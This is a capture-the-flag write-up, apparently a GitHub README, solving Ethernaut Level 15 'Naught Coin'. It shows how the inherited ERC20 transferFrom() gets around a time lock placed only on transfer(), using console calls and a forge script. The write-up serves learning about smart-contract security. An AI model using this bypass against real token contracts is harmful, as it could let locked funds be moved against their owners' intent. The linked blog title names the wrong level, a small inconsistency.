

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 15 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-15-naught-coin)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
  - [In the browser's console](#in-the-browsers-console)
  - [With Foundry using `forge`:](#with-foundry-using-forge)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

The NaughtCoin level is a bit weird as it is hard to imagine that anything like this would ever be implemented. However, it teaches us a valuable lesson about the importance of correctly implementing inherited functions.

We can see that the `transfer()` function has a `lockTokens` modifier.

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

So it looks like we won't be able to use the `transfer()` function to transfer the tokens to another address. But in the ERC20 standard, there is also a `transferFrom()` function, which allows another address to execute a transfer on our behalf if approved.

Since the `transferFrom()` function is not implemented in the NaughtCoin contract, its implementation will be the one defined in the OpenZeppelin contract, without the `lockTokens` modifier.

In other words, we can use the `transferFrom()` function to transfer the tokens to another address without worrying about the time lock.

## Solution

### In the browser's console

1.  Let's find out how many tokens you have:

```javascript
const balance = await contract.balanceOf(player);
```

2.  Approve another address to transfer tokens on your behalf:

```javascript
await contract.approve("TheFutureCoinOwner", balance);
```

3.  Transfer the tokens to another address using the transferFrom function:

```javascript
await contract.transferFrom(player, "TheFutureCoinOwner", balance);
```

### With Foundry using `forge`:

Edit the `futurCoinOwner` address in the `script/15_NaughtCoin.s.sol` file:

```javascript
 address futurCoinOwner = "your wallet address here";
```

Then run the script:

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always be careful when inheriting from other contracts. And make sure to implement the inherited functions correctly.

## Reference

- The Seneca hack & non implemented `pause()` function: https://rekt.news/seneca-protocol-rekt/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
